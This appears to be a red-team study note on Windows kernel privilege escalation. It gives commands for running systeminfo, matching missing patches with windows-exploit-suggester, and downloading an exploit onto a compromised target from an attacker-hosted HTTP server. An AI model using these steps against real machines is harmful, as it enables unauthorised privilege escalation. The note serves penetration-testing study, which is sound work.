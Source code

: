 --- ---

<h2>What is Kernel Exploit</h2>

A kernel exploit is a type of vulnerability that allows an attacker to execute arbitrary code in the kernel mode of an operating system. The kernel is the central component of an operating system that manages the hardware and software resources of a computer. It is responsible for managing system resources such as memory, processors, and devices, and it provides the interface between the hardware and software of the system.

An attacker may attempt to exploit a vulnerability in the kernel of a Windows machine by checking the update version of the system and comparing it to a database to determine if it has been patched. If the system is not up to date with the latest patches, the attacker may attempt to use a known kernel exploit to gain elevated privileges on the system and potentially install malicious software or modify system settings.

--- ---

<h2>Commands</h2>

Once you have compromised a windows machine, simply check the system info

```
systeminfo
```

Copy all the output of the document and past it into a file.txt on your attacking machine (Linux)

Check patches & Vulnerabilities
```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2022-...xlss --systeminfo file.txt
```

Output:
	<font color="green">[+]</font> ---> Vulnerable
	<font color="blue">[*]</font> ---> Not Vulnerable

More information ---> [[Red Team/6 - Machine/3 - Active Directory/General/Tools/• Windows exploit suggester (NG)]]


Transfer the exploit selected
```
# Attacking Machine
python3 -m http.server

# Target Machine
-urlcache -f http://IP/exploit.exe newnameofexploit.exe
```
